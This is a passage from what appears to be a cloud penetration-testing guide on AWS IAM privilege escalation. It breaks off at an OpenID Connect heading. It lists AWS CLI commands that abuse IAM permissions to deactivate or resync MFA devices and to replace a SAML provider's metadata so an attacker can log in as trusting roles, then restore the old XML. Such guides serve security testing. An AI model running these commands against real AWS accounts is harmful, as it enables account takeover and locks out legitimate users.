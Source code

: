 **Exploit for MFA Deactivation:**

```bash
aws iam deactivate-mfa-device --user-name <username> --serial-number <serial_number>
```

**Impact:** Indirect privilege escalation by enabling CodeCommit access or disabling MFA protection.

### **`iam:ResyncMFADevice`**

Allows resynchronization of an MFA device, potentially leading to indirect privilege escalation by manipulating MFA protection.

**Bash Command:**

```bash
aws iam resync-mfa-device --user-name <username> --serial-number <serial_number> \
    --authentication-code1 <code1> --authentication-code2 <code2>
```

**Impact:** Indirect privilege escalation by adding or manipulating MFA devices.

### `iam:UpdateSAMLProvider`, `iam:ListSAMLProviders`, (`iam:GetSAMLProvider`)

With these permissions you can **change the XML metadata of the SAML connection**. Then, you could abuse the **SAML federation** to **login** with any **role that is trusting** it.

Note that doing this **legit users won't be able to login**. However, you could get the XML, so you can put yours, login and configure the previous back

```bash
# List SAMLs
aws iam list-saml-providers

# Optional: Get SAML provider XML
aws iam get-saml-provider --saml-provider-arn <ARN>

# Update SAML provider
aws iam update-saml-provider --saml-metadata-document <value> --saml-provider-arn <arn>

## Login impersonating roles that trust the SAML provider

# Optional: Set the previous XML back
aws iam update-saml-provider --saml-metadata-document <previous-xml> --saml-provider-arn <arn>
```

{% hint style="info" %}
TODO: A Tool capable of generating the SAML metadata and login with a specified role
{% endhint %}

### `iam:UpdateOpenIDConnectProviderThumbprint`, `iam:ListOpenIDConnectProviders`, (`iam:`**`GetOpenIDConnectProvider`**)
